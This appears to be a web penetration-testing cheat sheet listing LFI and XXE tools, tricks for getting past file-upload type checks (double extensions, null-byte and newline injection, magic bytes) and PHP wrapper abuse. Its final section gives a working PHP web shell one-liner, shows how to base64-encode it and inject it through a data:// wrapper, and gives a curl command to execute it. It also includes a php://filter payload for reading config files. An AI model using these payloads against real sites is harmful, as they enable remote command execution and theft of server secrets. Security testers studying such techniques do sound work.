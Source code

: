 * https://github.com/OsandaMalith/LFiFreak

* https://github.com/mzfr/liffy



## XML External Entity (XXE) Injection

> Automatic tool: https://github.com/enjoiz/XXEinjector



## Bypass the client-side file type validations

> Fuzzing extensions

Dictionary: https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt

> Double extensions

> Reverse double extensions

Dictionary double extensions: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst

> Character Injection

- %20
- %0a
- %00
- %0d0a
- /
- .\
- .
- …
- :

> MIME-Type

 [File Signature](https://en.wikipedia.org/wiki/List_of_file_signatures) or [Magic Bytes](https://opensource.apple.com/source/file/file-23/file/magic/magic.mime)



## PHP Wrappers

Example  of create a reverse shell PHP to base64:

```
echo '<?php system($_GET["cmd"]); ?>' | base64
```

Insert it into a parameter:

```
http://<URL>?parameter=data://text/plain;base64,<codeBase64>&cmd=<command>
```

Download it and get the shell:

```
curl -s 'http://<URL>?parameter=data://text/plain;base64,<codeBase64>&cmd=<command>'
```

More Wrappers:

```
php://filter/read=convert.base64-encode/recource=config
```



